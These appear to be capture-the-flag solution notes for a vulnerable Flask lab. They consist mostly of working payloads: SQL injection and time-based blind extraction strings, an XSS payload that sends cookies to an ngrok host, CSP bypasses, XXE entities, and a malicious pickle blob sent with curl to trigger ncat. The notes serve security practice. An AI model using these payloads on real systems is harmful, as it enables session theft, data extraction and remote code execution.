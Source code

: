 Flask
SQL
----------
' or 1=1; -- 

SQL Timing Based
--------------
https://www.youtube.com/watch?v=DYLDG_2Vs3E
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
"' or ((SELECT hex(substr(table_name,{},1)) FROM information_schema.tables limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- ".format(len(known_data)+1, x)
"' or ((SELECT hex(substr(column_name,{},1)) FROM information_schema.columns where table_name = 'supersecrettable' limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "
"user_name": "' or ((SELECT hex(substr(flag,{},1)) FROM supersecrettable limit 1 offset 0)=hex('{}') and 1=1-SLEEP(2)) -- "

NoSQL Blind injection
---------------------
https://www.youtube.com/watch?v=7kmttmmlygc
https://cloud.mongodb.com/v2/601b09a6a1838475f9393a92#metrics/replicaSet/622b90aef64b734b93ba453d/explorer/CTF/users/find
Refer to script

XSS
---------
ncat -klnvp 9000
ngrok http 9000
<script>document.write('<img src="http://019b-2406-3003-2077-4ea9-e183-ea0c-8d0-92a2.ngrok.io?cookie='+btoa(document.cookie)+'" />');</script>
curl -H "Cookie: token=8abae5d8bc89622b6bf5a76c948312f2" http://127.0.0.1:5000/XSS/admin

XSS with Content Security Policy (Low)
---------
<iframe src="http://localhost/CTF/attacker/base.html"></iframe>

XSS with Content-Security-Policy (High)
-----------------
<meta http-equiv="refresh" content="1; url=http://localhost:5000/XSS3/flag">


XML Blind injection
----------------------------
https://www.youtube.com/watch?v=ySJwlMsFbco
Refer to script


XXE injection
------------------------
https://www.youtube.com/watch?v=kiGoOuuXWFI

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <food>
    <name>Tonkatsu &example;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></food>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:5000/XXE/flag" >
]>
<food>
    <name>Tonkatsu &xxe;</name> 
    <toppings>Add Ajitama</toppings> 
    <optional>Add Beef</optional></food>


Pickle Insecure Deserialization
---------------------------
Refer to script
ncat -klnvp 9000
curl -d "function=decode&input=\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x13ncat 127.0.0.1 9000\x94\x85\x94R\x94." http://127.0.0.1:5000/INSEC/





